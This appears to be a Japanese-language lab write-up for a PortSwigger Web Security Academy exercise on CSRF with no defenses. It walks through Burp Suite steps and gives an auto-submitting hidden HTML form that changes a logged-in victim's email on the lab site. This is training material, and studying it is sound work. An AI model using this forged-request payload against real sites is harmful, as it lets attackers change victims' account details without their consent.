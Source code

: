 # 防御策のない CSRF 脆弱性

次のハッキングラボを実施します  
https://portswigger.net/web-security/csrf/lab-no-defenses  
このラボの電子メール変更機能は CSRF に対して脆弱です。

- 1. BurpSuite を起動して、Proxy タブからブラウザを起動します
- 2. ブラウザからハッキングラボにアクセスします
- 3. 一般ユーザーでログインします
- 4. email アドレスの変更を行います
- 5. エクスプロイトサーバーに移動し、次の HTML を body に貼り付けて「Store」をクリックします。

```html
<form method="POST" action="https://0a28006a03f1108d8098711f00430003.web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="test@test" />
</form>
<script>
  document.forms[0].submit();
</script>
```

- 6. 「Deliver expoit to victim」をクリックします
- 7. 生成されたレスポンスにアクセスするとスクリプトが実行されます

